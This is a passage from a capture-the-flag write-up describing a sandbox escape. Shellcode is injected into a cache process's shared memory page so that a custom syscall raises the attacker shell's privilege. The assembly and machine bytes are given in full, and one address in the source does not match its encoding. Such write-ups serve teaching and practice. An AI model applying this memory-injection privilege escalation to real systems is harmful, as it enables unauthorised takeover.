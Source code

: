 ### The exploit:

Anyways, now that we know that we can write to crazy_cache's mmap'd memory page, our exploit is now as follows:

We want crazy_cache to execute this shellcode:

```
mov ebx, 0x2
mov eax, 0xc
int 0x80
```

When assembled, this assembly code translates to this:

```
BB 02 00 00 00 B8 0C 00 00 00 CD 80
```

This shellcode basically performs the remote_setuser syscall to set the privilege of the process with a pid of 2 (our rash shell) to the privilege of the crazy_caches process).

We need to get this data into memory, however. We also need to remember to set the first 4 bytes of the mmap'd memory page to 0xdeadc0de. To do that, we could use a series of mov's:

```
mov eax, 0xd04800
mov dword ptr [eax], 0xdeadc0de ; setting the deadc0de string
add eax, 0x400
mov dword ptr [eax], 0x000002bb ; writing the shellcode (note endianness)
mov dword ptr [eax+0x4], 0x000cb800
mov dword ptr [eax+0x8], 0x80cd0000
```

When we assemble this, we get:

```
B8 00 80 04 0d C7 00 DE C0 AD DE 05 00 04 00 00 C7 00 BB 02 00 00 C7 40 04 00 B8 0C 00 C7 40 08 00 00 CD 80
```

Let's put this into binexec and see what happens:

![](https://i.imgur.com/bWwOcmA.png)

Looks like we got the flag! And when we exit binexec to view the permissions of our rash process:

![](https://i.imgur.com/kF5bFQK.png)

We are no longer the sandb0x user, and our UID is now 1!

## Kernel::Run_it_as_Root

![](https://i.imgur.com/X95Dpen.png)

Now that we have fully escaped the sandbox, it's time for the last leg of our journey: Rooting the box.
